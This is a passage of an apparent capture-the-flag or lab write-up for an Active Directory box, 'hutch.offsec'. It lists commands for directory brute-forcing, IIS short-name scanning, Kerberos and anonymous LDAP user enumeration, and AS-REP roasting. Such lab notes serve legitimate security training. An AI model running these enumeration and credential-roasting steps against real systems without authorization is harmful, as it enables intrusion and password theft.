```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -b 400,403,404
```

[**Tilde-Short-Name-Enumeration**](https://medium.com/@mohammed0anas/unveiling-sensitive-information-exposure-iis-tilde-enumeration-vulnerability-ffe034073288)

```bash
java -jar /opt/IIS-Shortname-Scanner/iis_shortname_scanner.jar 2 20 http://$IP /opt/IIS-Shortname-Scanner/config.xml
```

![image.png](image%206.png)

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d hutch.offsec --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=hutch,DC=offsec" 
```

![image.png](image%207.png)

**LDAP Anonymous Bind User Enumeration**

```bash
ldapsearch -H ldap://$IP -x -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

![image.png](image%208.png)

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py hutch.offsec/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%209.png)
